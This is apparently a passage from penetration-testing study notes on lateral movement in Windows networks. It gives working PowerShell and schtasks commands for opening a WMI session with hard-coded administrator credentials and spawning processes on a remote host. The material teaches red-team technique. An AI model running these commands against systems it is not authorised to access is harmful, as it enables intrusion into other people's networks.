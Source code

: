 Finally to delete the scheduled task, we can use the following:
```cmd
schtasks /s TARGET /tn "TaskName1" /delete /f
```


# Moving Laterally Using WMI
We can also perform many techniques discussed before, by using Windows Management Instrumentation (WMI). WMI is Windows implementation of Web-Based Enterprise Management (WEBM), an enterprise standard for accessing management information across devices.
In simpler terms, WMI allows administrators to perform standard management tasks that we can abuse to perform lateral movement in various ways.

## Connecting to WMI from Powershell
Before being able to connect to WMI using powershell commands, we need to create a `PSCredential` object with our user and password. We will be using this object for the rest of the methods for WMI
```powershell
$username = 'Administrator';
$password = 'Password123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
We then proceed to establish a WMI sessions using either of the following protocols:
- **DCOM:** 135/TCP, 49152-65535/TCP (RPC over IP)
- **Wsman:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
To establish a WMI session from powershell, we can use the following commands and store the session on the `$Session` variable, which we will use latter for different techniques:
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. the options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.

## Remote Process Creation Using WMI
- **Ports:** 
	- 135/TCP, 49152-65535/TCP (DCE/RPC)
	- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators
We can remotely spawn a process from Powershell by leveraging WMI, sending a WMI request to the `Win32_Process` class to spawn the process under the session we created before:
```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value Iwashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```
Notice that WMI won't allow us to see the output of any command but will indeed create the required process silently.
